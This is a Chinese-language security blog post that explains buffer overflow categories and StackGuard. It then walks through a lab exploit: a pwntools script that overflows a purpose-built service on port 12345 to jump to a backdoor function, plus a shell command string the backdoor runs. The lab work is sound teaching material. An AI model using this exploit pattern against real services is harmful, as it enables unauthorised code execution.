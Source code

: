 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/KGDXsJxsNbyl1tAoKdE9DQ)

作者：战神 / calmness

文章来源：https://blog.csdn.net/weixin_43650289/article/details/110005655

目录

描述

类别

拓扑图

准备环境

过程

分析

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzS21VLC8P14ZXspnfeaC4wlwtZGmmlpia2UpKeicp5ZlthY93sAQXW8ibg/640?wx_fmt=png)
-------------------------------------------------------------------------------------------------------------------------------------------------

描述
--

 缓冲区溢出攻击是利用缓冲区溢出漏洞所进行的攻击行动。缓冲区溢出是一种非常普遍、非常危险的漏洞，在各种操作系统、应用软件中广泛存在。利用缓冲区溢出攻击，可以导致程序运行失败、系统关机、重新启动等后果。

缓冲区溢出（Buffer Overflow）是计算机安全领域内既经典而又古老的话题。随着计算机系统安全性的加强，传统的缓冲区溢出攻击方式可能变得不再奏效，相应的介绍缓冲区溢出原理的资料也变得 “大众化” 起来。其中看雪的《0day 安全：软件漏洞分析技术》一书将缓冲区溢出攻击的原理阐述得简洁明了。结合实际的代码实例进行验证。不过即便如此，完成一个简单的溢出代码也需要解决很多书中无法涉及的问题，尤其是面对较新的具有安全特性的编译器——比如 MS 的 Visual Studio2010。接下来，我们结合具体代码，按照对缓冲区溢出原理的循序渐进地理解方式去挖掘缓冲区溢出背后的底层机制。

类别
--

缓冲区溢出的攻击大致分为以下几类：栈溢出（stack smashing）未检查输入缓冲区长度，导致数组越界，覆盖栈中局部变量空间之上的栈桢指针 %ebp 以及函数返回地址 retaddr。

堆溢出（malloc/free heapcorruption）：一种是和传统的栈溢出一样, 当输入超出 malloc() 预先分配的空间大小，就会覆盖掉这段空间之后的一段存储区域，如果该存储区域有一个重要的变量比如 euid。

格式化字符窜漏洞（format stringvulnerability）：如果格式窜由用户定制，攻击者就可以任意伪造格式窜，利用 * printf() 系列函数的特性就可以窥探堆栈空间的内容，超常输入可以引发传统的缓冲区溢出，或是用”%n” 覆盖指针、返回地址等。

整形变量溢出（integer variableoverflow）：利用整数的范围、符号等问题触发安全漏洞，大多数整形溢出不能直接利用，但如果该整形变量决定内存分配等操作，我们就有可能间接利用该漏洞。

其他的攻击手法（others）：只能算是手法，不能算是一种单独的类别。利用 ELF 文件格式的特性如：覆盖. plt（过程连接表）、.dtor（析构函数指针）、.got（全局偏移表）、return-to-libc（返回库函数）等的方式进行攻击。

Stackguard：因为缓冲区溢出的通常都会改写函数返回地址，stackguard 是个编译器补丁，它产生一个＂canary＂值 (一个单字) 放到返回地址的前面，如果 当函数返回时，发现这个 canary 的值被改变了，就证明可能有人正在试图进行缓冲区溢出攻击，程序会立刻响应，发送一条入侵警告消息给 syslogd, 然后终止进程。

拓扑图
---

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzjIOzTXj7iad93bsCXCngHDBpWcY3Yp4p4Iic4ic8UEaxs11NBZbURW1Qg/640?wx_fmt=png)

准备环境
----

靶机部署缓冲区的环境：程序绑定在 12345 端口

编译

运行

攻击机安装依赖环境：使用 python3 环境

安装 pwntools

```
$ pip install pwntools -i https://pypi.tuna.tsinghua.edu.cn/simple/
```

过程
--

1. 在攻击机器上编写 exp.py 脚本

```
from pwn import *

# cn=process('./backdoor')

cn=remote('192.168.220.241',12345) # 靶机部署的地址

cn.sendline(p64(0)*3+p64(0x400770))

cn.interactive()
```

运行脚本

```
python3 exp.py
```

未安装依赖包 

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSz2oSh2pj53fdgfRibp869Hk8oibc8AJ6K6DDJk6RuRiaNokM5soCHE0CjA/640?wx_fmt=png)

安装依赖包过程

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzKpgUC9CbFcSCTQymIgTns8Ldnu1n4DPpjwbibH5mibyLqMq43SXrpnwQ/640?wx_fmt=png)

```
python3 -m pip install pwntools -i https://pypi.tuna.tsinghua.edu.cn/simple/
```

```
apt-get install -y python3-dev python3-pip libffi-dev libssl-dev
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzswfVyujdE9ndhZ33Nt2Gf2Ag7UW5wb694l8eJvic1JWHHe6ugqqWBFA/640?wx_fmt=png)

```
$ pip install pipenv

$ pipenv shell

> pip install pwntools -i https://pypi.tuna.tsinghua.edu.cn/simple/
```

发现使用上述方法不管用

进行更新包安装

```
apt-get update
```

下载包

git clone https://github.com/Gallopsled/pwntools 

继续安装

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzGiaEmwnAgJMFGDkLKoe1ldsBgqO8lc5t7PqF7fXdzbOibhTxxuxVS5Gg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSz4VyW5fIXK2QGfa4ktSbX8MftiawMyhlRPAyicNYqHIq90Mm6mv6kE5nQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSznw9p4ibnujEZa0ibjuUY3dxm4RHyyttUWUkmzd1YVB4FEoCGZreVrR1A/640?wx_fmt=png)

结果

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzgBYicmEib2hLLZPt4jOtuQIEibPCL93UgqsiaAtTn9ySSMUQQPGz0qC65g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzT2I2Jkty7mcHgPl9gpyXrYZhnsqF1t6bXoDxT2A3MZnwJsLiccCv7Lw/640?wx_fmt=png)

或者

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzdsaS9nzHl19jiba5WmGTMUAiau5EbLH5s7WrcYSI8DTfM1IeqgM0fEQg/640?wx_fmt=png)

更改反弹的内容

“/bin/sh -c ifconfig> /tmp/ev.txt"

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzND648wCglocZwNrTry3QfSjzqYktZVZuc0Wrtyv6qP5osx1O8yBhCQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSz3fhxGNc5wiboQziaYkicib0n7yU2w8UxwQ527O0Ybib0jh75laN69mhXDTQ/640?wx_fmt=png)

最后在水滴上查看结果；

分析
--

查看靶机源码中定义了端口，函数，反弹的一句话

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSz5rqZxKgVqn5r9wxEZGn7cVTZZ1JJn1FHwua3MzOqg5sShd0lia0n4cQ/640?wx_fmt=png)

这里定义客户端，字符串

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSz46lHsXJd5vmpq9lqLibR4nmsHdbrMYYhxvibSjdHY71dgjRZs8LutLyQ/640?wx_fmt=png)

当循环到一定程度上，超出了所能存储的范围，就会形成溢出

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzdCVfeFgpL80JmMHq6G0EyKPnlAnTh6R3hRI9QuQZY0emyMEf3ic8nkQ/640?wx_fmt=png)

同时也做了监听

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzd8jr273gOgXE1DY1Dkevj9kock21FZdxyjKsYO9nIz8QTUjziaHUDiaw/640?wx_fmt=png)

参考脚本地址：https://pypi.org/project/pwntools/

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavw9llmdibHhtb5XynibY1LbSzgfuPcaGKNmATYTicnPJUtwmfRan65bVFo6G8icNoBvzicpUKYaqCOEb3g/640?wx_fmt=png)

_end_

**关注公众号: HACK 之道**  

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3qL1R1NCVbY1ElanNngBlMTUKUibAUoQNQuufs7QibuMXoBHX5ibneNiasMzdthUAficktvRzexoRTXuw/640?wx_fmt=jpeg)

如文章对你有帮助，请支持点下 “赞”“在看”